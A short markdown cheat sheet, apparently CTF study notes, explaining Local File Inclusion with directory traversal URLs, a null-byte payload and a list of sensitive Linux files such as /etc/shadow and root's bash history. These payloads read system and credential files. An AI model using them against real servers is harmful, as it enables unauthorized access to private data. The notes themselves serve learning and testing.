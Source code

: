 # Local File Inclusion (LFI) 

## What is it
Attacker uses LFI to trick web application into exposing or running files on the web server. **Generally occurs when the application uses a path to a file as input.**
```python
open(file, <user_input_path>)
```
Can lead to - information disclosure, RCI, XSS attacks

## Exploits
1. Directory Traversal to access important files. (Doablein python, ruby, asp.net)
```
http://example.com/?file=../../../../etc/passwd and so on
```

Try directory traversal for all params possible
```
Original: 1.php?uid=abcd&rec=2
Paylod:   1.php?uid=abcd/..&rec=3.php%00
```

List of important Linux files:
```
– /etc/issue
– /proc/version
– /etc/profile
– /etc/passwd
– /etc/passwd
– /etc/shadow
– /root/.bash_history
– /var/log/dmessage
– /var/mail/root
– /var/spool/cron/crontabs/root

- wp-admin
- index.html
- index.php
```
and...`/flag` ofc :')

2. Null Byte Attack
Many developers add up a ‘.php’ extension into their codes at the end of the required variable before it gets included.

Therefore the webserver is interpreting `/etc/passwd` as `/etc/passwd.php`, thus we are not able to access the file. In order to get rid of this .php we try to terminate the variable using the null byte character (%00) 
```
http://example.com/?file=/etc/passwd%00
```

## References
https://www.hackingarticles.in/comprehensive-guide-to-local-file-inclusion/


